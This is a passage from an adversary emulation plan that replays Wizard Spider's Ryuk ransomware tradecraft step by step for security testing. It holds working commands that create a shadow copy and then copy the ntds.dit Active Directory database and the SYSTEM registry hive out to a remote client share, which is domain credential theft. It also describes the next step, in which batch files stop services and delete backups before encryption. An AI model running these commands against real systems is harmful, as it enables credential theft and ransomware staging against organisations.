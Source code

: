 ```bash
cls
```

```bash
# Wizard Spider has gained access to credentials via exported copies of the ntds.dit Active Directory database.[3]

vssadmin.exe create shadow /for=C:
```

You will get output resembling the following:

```
vssadmin output:
    Shadow Copy ID: {cb0a1e0b-e4d7-44f4-aacb-daed56db01ce}
    Shadow Copy Volume Name: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1
```

:warning: Make sure the `\\\\?\GLOBALROOT...HarddiskVolumeShadowCopy1` path matches your output!

```bash
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\NTDS\NTDS.dit \\TSCLIENT\X\ntds.dit
```

```bash
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM \\TSCLIENT\X\VSC_SYSTEM_HIVE
```

```bash
reg SAVE HKLM\SYSTEM \\TSCLIENT\X\SYSTEM_HIVE
```

Notionally, Wizard Spider carves credentials offline from ntds.dit using tools like Impacket's secretsdump.py

### :microscope: Cited Intelligence

* https://www.fireeye.com/blog/threat-research/2020/10/kegtap-and-singlemalt-with-a-ransomware-chaser.html

<br>

## Step 9 - Ryuk Inhibit System Recovery

:microphone: `Voice Track:`

In step 9, Wizard Spider prepares to deploy an executable based on the Ryuk ransomware.

At the beginning of this step, Wizard Spider mounts the C$ share of a lateral host, toto / 10.0.0.8.

Files on Toto will be encrypted in the next step.

Next, Wizard Spider uploads two files to disk: kill.bat and window.bat.

These files are used to stop specific services and delete backups prior to encrypting the system.

---
